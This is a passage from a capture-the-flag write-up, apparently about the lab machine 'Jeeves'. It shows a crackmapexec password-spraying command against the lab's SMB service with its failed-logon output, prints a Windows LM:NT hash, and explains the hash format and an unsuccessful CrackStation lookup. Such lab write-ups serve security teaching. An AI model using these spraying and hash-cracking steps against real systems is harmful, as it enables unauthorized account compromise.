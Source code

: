     oxdf@hacky$ crackmapexec smb 10.10.10.63 -u Administrator -p passwords 
    SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:12345 STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:pwndyouall! STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE 
    SMB         10.10.10.63     445    JEEVES           [-] Jeeves\Administrator:Password STATUS_LOGON_FAILURE



### Try Hash

#### LM and NT Hashes

The first entry in the KeePass, "Backup", provided what looks like a
Windows hash:



    aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00



Windows will show hashes in the format `LM Hash:NT Hash`. LM is the much
less secure hash format used in legacy Windows systems. It's typically
not used, but kept around for backwards compatibility. Many times, the
LM hash for the blank password is stored, which is ignored by Windows
but allows the field not to be empty. `aad3b435b51404eeaad3b435b51404ee`
is the LM hash of the empty password.

#### Crack Failures

Because there's no salting in NT hashes, I can submit them to
[CrackStation](https://crackstation.net/), where they store *tons* of
hashes for known passwords. It finds the empty LM hash, but doesn't have
anything for the NT hash:

![](/img/image-20220413072456310.png)
